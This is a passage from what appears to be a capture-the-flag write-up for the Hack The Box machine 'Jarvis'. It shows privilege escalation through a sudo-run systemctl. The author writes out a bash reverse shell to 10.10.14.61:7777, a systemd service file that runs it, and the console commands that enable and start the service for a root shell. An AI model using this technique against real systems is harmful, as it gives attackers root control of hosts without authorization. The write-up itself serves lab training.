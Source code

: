![ssh as pepper.](/wp-content/uploads/2019/07/jarvis/ssh_pepper.png)
**Figure 12:** SSH'ing in directly using our public key.


### Exploiting systemctl

Since we know that the `systemctl` binary is going to be run as `root`, let's create our own service to call a reverse shell (as root!). 

First we create our script to call a reverse shell, we'll call it `shelly.sh`. This time we have netcat listening on port `7777`. We also need to `chmod +x /tmp/shelly.sh` so that it's executable.

```
#!/bin/bash  
bash -i >& /dev/tcp/10.10.14.61/7777 0>&1
```

Next we create `revshell_root.service` to execute our reverse shell as root.

```
[Unit]
Description=root shell

[Service]
ExecStart=/tmp/shelly.sh

[Install]
WantedBy=multi-user.target
```

Once `shelly.sh` and `revshell_root.service` are in the `/tmp` directory, we enable the services through `systemctl`, and then start the service. Upon starting the service our reverse shell is triggered, and we're root!

```console
pepper@jarvis:/tmp$ systemctl enable /tmp/revshell_root.service
Created symlink /etc/systemd/system/multi-user.target.wants/revshell_root.service → /tmp/revshell_root.service.
Created symlink /etc/systemd/system/revshell_root.service → /tmp/revshell_root.service.
pepper@jarvis:/tmp$ systemctl start revshell_root.service
```
